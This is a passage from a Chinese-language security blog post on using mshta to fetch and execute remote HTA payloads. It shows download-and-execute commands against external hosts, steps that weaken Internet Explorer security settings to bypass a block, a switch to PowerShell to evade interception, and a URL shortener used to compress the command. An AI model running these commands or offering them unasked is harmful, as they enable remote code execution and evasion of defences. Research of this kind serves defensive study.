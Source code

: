 添加功能，实现下载执行，命令如下：

```
mshta https://3gstudent.github.io/test/downloadexec.hta
```

弹框提示此计算机上的安全设置禁止访问其它域的数据源，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-1.png)

**解决方法：**

`IE浏览器`-`Internet选项`-`安全`

选择`可信站点`，添加博客地址：https://3gstudent.github.io/

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-2.png)

`自定义级别`，找到`通过域访问数据源`，选择`启用`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-23/2-3.png)

再次测试，成功实现下载执行的功能

经过以上的测试，我们发现IE浏览器默认会拦截vbs脚本实现的下载功能

那么，我们可以大胆猜测，如果下载执行换成powershell实现的话，那么就不会被拦截

修改脚本，上传至github

命令如下：

```
mshta https://3gstudent.github.io/test/downloadexec2.hta
```

经过测试，该方法可用

使用短地址

有趣的是 http://dwz.cn/ 不支持该域名

换一个短地址网站 http://sina.lt/

生成短地址，最终命令为：

```
mshta http://t.cn/RYUQyF8
```

最终实现的最短字符长度为25



## 0x04 补充
---

### 1、IEExec
